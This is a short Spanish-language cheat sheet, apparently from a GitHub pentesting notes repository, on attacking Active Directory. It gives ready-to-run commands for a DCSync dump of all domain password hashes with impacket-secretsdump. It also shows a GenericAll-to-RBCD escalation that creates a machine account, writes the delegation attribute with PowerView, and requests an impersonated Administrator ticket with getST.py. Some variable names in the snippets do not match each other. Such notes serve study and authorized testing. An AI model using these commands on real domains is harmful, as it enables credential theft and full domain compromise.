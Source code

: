 ## DCSync

Vamos a usar `impacket-secretsdump`:

```shell
impacket-secretsdump <DOMINIO>/<USUARIO>@<HOSTNAME>.<DOMINIO>
```

Después nos pedirá la contraseña del usuario y podremos ver todos los hashes del dominio, incluido el de Administrator.

## GenericAll

Si tenemos `GenericAll` sobre un usuario, o pertenecemos a un grupo que tiene esto sobre un usuario/grupo/ordenador, podemos escalar privilegios de esta forma:

### Sobre ordenador

>Antes debemos importar `PowerView.ps1` y [Powermad.ps1](https://github.com/Kevin-Robertson/Powermad/blob/master/Powermad.ps1)

```powershell
New-MachineAccount -MachineAccount ruycr4ft -Password $(ConvertTo-SecureString '123456' -AsPlainText -Force) -Verbose
```

Ahora comprobamos que se haya creado:

```powershell
Get-DomainComputer ruycr4ft
```

Y ahora:

```powershell
$ComputerSid = Get-DomainComputer FAKECOMPUTER -Properties objectsid | Select -Expand objectsid
$SD = New-Object Security.AccessControl.RawSecurityDescriptor -ArgumentList "O:BAD:(A;;CCDCLCSWRPWPDTLOCRSDRCWDWO;;;$ComputerSid)"
$SDBytes = New-Object byte[] ($SD.BinaryLength)
$SD.GetBinaryForm($SDBytes, 0)
Get-DomainComputer <HOSTNAME> | Set-DomainObject -Set @{'msds-allowedtoactonbehalfofotheridentity'=$SDBytes}
```

Ahora comprobamos:

```powershell
Get-DomainComputer $targetComputer -Properties 'msds-allowedtoactonbehalfofotheridentity'
```

Con esto definido, jugaremos con `impacket-getST`. Cabe destacar que todo lo anterior se puede conseguir con `impacket-addcomputer` y `impacket-rbcd`:

```shell
getST.py -spn cifs/<HOSTNAME>.<DOMINIO> -impersonate administrator -dc-ip <IP> <DOMINIO>/COMPUTER$:123456
```
